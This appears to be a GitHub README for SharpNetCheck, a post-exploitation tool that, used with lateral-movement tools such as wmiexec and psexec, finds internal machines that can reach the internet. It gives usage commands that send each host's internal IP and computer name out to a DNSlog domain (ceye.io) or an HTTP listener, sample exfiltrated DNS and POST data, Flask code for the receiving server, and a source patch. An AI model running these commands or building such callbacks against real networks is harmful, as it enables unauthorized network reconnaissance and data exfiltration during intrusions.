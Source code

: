 # SharpNetCheck
在渗透过程中，对可以出网的机器是十分渴望的。在收集大量弱口令的情况下，一个一个去测试能不能出网太麻烦了。所以就有了这个工具，可配合如wmiexec、psexec等横向工具进行批量检测，该工具可以在dnslog中回显内网ip地址和计算机名，可实现内网中的快速定位可出网机器。

```
> SharpNetCheck.exe

Author: Uknow
Github: https://github.com/uknowsec/SharpNetCheck

Usage: SharpNetCheck -dns -host ceye.io
       SharpNetCheck -http ceye.io
       SharpNetCheck -all ceye.io
```

## ceye

`SharpNetCheck -all -host xxx.ceye.io`

#### HTTP Requests

```
Method: Post
Data: host=DESKTOP-KUMLA9N&ip1=172.16.242.133
```

#### DNS Query Name
```
172.16.242.133-DESKTOP-KUMLA9N.xxx.ceye.io
```


## 搭建http 回显 服务器 

```
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def welcome():
    return 'Welcome'

@app.route('/register', methods=['POST'])
def register():
    print(request.headers)
    print(request.stream.read())
    return 'welcome'


if __name__ == '__main__':
    app.run(host='0.0.0.0',port=38989, debug=True)
```

然后运行 SharpNetCheck.exe

```
>SharpNetCheck.exe -http 1x.x.x.x2:38989/register

Net Ckeck by HTTP , Please check the DNSlog
```

服务器就可以接收到post的内容

![](./flask.png)

修改 `SharpNetCheck/Program.cs` 第97行代码

`url = "http://" + url + "/";`

为

`url = "http://" + url;`
